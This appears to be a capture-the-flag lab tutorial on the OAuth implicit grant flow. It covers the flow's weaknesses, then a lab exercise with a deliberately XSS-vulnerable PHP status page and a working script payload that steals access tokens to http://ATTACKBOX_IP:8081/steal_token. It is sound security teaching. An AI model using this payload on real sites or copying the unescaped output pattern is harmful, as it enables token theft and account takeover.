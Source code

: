 # Exploiting OAuth Implicit Grant Flow

In the implicit grant flow, tokens are directly returned to the client via the browser without requiring an intermediary authorization code. This flow is primarily used by single-page applications and is designed for public clients who cannot securely store client secrets. However, this flow has inherent vulnerabilities:

## Weaknesses

- **Exposing Access Token in URL**: The application redirects the user to the OAuth authorization endpoint, which returns the access token in the URL fragment. Any script running on the page can easily access this fragment.
- **Inadequate Validation of Redirect URIs**: The OAuth server does not adequately validate the redirect URIs, allowing potential attackers to manipulate the redirection endpoint.
- **No HTTPS Implementation**: The application does not enforce HTTPS, which can lead to token interception through man-in-the-middle attacks.
- **Improper Handling of Access Tokens**: The application stores the access token insecurely, possibly in localStorage or sessionStorage, making it vulnerable to XSS attacks.

## Deprecation of Implicit Grant Flow

Due to these vulnerabilities, the OAuth 2.0 Security Best Current Practice recommends deprecating the implicit grant flow in favour of the authorization code flow with Proof Key for Code Exchange (PKCE). This updated flow provides enhanced security by mitigating the risks of token exposure and lack of client authentication.

## Practical

Before starting the exercise, please ensure you are logged out of the OAuth provider as an attacker by visiting the link [http://coffee.thm:8000/admin/logout](http://coffee.thm:8000/admin/logout).

In the attached VM, visit [http://factbook.thm:8080](http://factbook.thm:8080), where you will see a page that allows you to sync your statuses from a CoffeeShopApp. The authorisation process will start once you click on the "Sync Statuses from CoffeeShopApp" button. The client application is configured to use the implicit grant type, which means the access token will be directly returned to the client. The authorization URL is constructed as follows:

```javascript
var client_id = 'npmL7WDiRoOvjZoGSDiJhU2ViodTdygjW8rdabt7';
var redirect_uri = 'http://factbook.thm:8080/callback.php'; 
var auth_url = "http://coffee.thm:8000/o/authorize/";
var url = auth_url + "?response_type=token&client_id=" + client_id + "&redirect_uri=" + encodeURIComponent(redirect_uri);
window.location.href = url;
```

### Victim Perspective

Once the user authenticates using the OAuth provider credentials `victim:victim123`, he will be redirected to `callback.php`, where he can enter a status. This page includes a form for entering a status and submitting it via an AJAX request:

```html
<button class="btn btn-primary" onclick="submitStatus()">Submit</button>
<h2 class="mt-4">Submitted Status</h2>
<ul class="list-group" id="status-list">
    <?php
    session_start();
    if (isset($_POST['status'])) {
        $status = $_POST['status'];
        if (!isset($_SESSION['statuses'])) {
            $_SESSION['statuses'] = [];
        }
        $_SESSION['statuses'][] = $status;
        header('Content-Type: application/json');
        echo json_encode(['status' => $status]);
        exit();
    }
    // Display previously stored statuses
    if (isset($_SESSION['statuses'])) {
        foreach ($_SESSION['statuses'] as $status) {
            echo '<li class="list-group-item">' . $status . '</li>';
        }
    }
    ?>
</ul>
```

For demonstration purposes, the status input field is vulnerable to XSS. Once you reach the status page and enter a status like "Hello", it will be published. However, if an attacker exploits this vulnerability, they can inject a malicious script.

### Attacker Perspective

To prepare for the attack, inside the Attackbox instance, run a Python HTTP server to listen on port 8081 using the command:

```bash
python3 -m http.server 8081
```

The attacker will share the following payload with the victim that he will enter as status (assume using social engineering):

```html
<script>
var hash = window.location.hash.substr(1);
var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
}, {});
var accessToken = result.access_token;
var img = new Image();
img.src = 'http://ATTACKBOX_IP:8081/steal_token?token=' + accessToken;
</script>
```

Let's dissect the payload:

1. The JavaScript payload starts by extracting the fragment identifier from the URL, which is the part of the URL following the `#` symbol. It removes the leading `#` using `substr(1)` to obtain the raw fragment string.
2. This string is then split by `&` to separate the individual key-value pairs. The `reduce` function processes each of these pairs, splitting them further by `=` to isolate the keys and values. These key-value pairs are then stored in an object called `result`.
3. The script extracts the `access_token` value from this object and assigns it to the variable `accessToken`. To exfiltrate this access token, the script creates a new `Image` object and sets its `src` attribute to a URL that points to an attacker's server (`http://ATTACKBOX_IP:8081/steal_token`), appending the access token as a query parameter.
4. When the image is loaded, it triggers a request to the attacker's server with the stolen access token included in the URL, effectively sending the token to the attacker.

Copy and paste the code inside the victim machine into the status input field. Once the victim refreshes the page, the XSS payload is executed. It copies the access token from the URL fragment and sends it to the attacker's server at `http://ATTACKBOX_IP:8081/steal_token`. The attacker can then capture the token and use it to gain unauthorized access to the user's account.

**Note**: Refresh the page in order to visualize what the victim sees and to retrieve the token.

```bash
Terminal
root@ip-10-10-162-175:~# python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.9.2.217 - - [27/Aug/2024 19:30:10] code 404, message File not found
10.9.2.217 - - [27/Aug/2024 19:30:10] "GET /steal_token?token=2aauviER3lUOev8wNmXQ9B4GNUoadE HTTP/1.1" 404 -
```

The implicit grant type is particularly vulnerable to such attacks because the access token is exposed in the URL fragment, making it accessible to any script running on the page. This vulnerability is compounded if the application does not enforce HTTPS, leading to potential token interception through man-in-the-middle attacks.